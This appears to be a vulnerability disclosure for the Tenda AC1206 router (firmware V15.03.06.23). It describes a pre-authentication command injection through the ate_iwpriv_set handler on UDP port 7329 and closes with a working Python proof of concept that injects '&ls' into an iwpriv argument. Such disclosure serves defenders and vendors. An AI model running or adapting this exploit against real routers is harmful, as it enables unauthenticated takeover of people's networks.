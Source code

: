 # Description

Tenda AC1206 ate_iwpriv_set has pre-authentication command injection

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

V15.03.06.23 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `iwpriv`and `arg` is `wlan0` or `wlan1`, the `ate_iwpriv_set` function is called

![2024-10-04_203324](2024-10-04_203324.png)

if `;` not in `arg`, The code will enter this branch

![2024-10-04_203449](2024-10-04_203449.png)

The `iwpriv_wlan_set` function will directly execute user input, causing command injection

![2024-10-04_203635](2024-10-04_203635.png)

# POC

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'iwpriv wlan0 &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

![2024-10-04_203837](2024-10-04_203837.png)
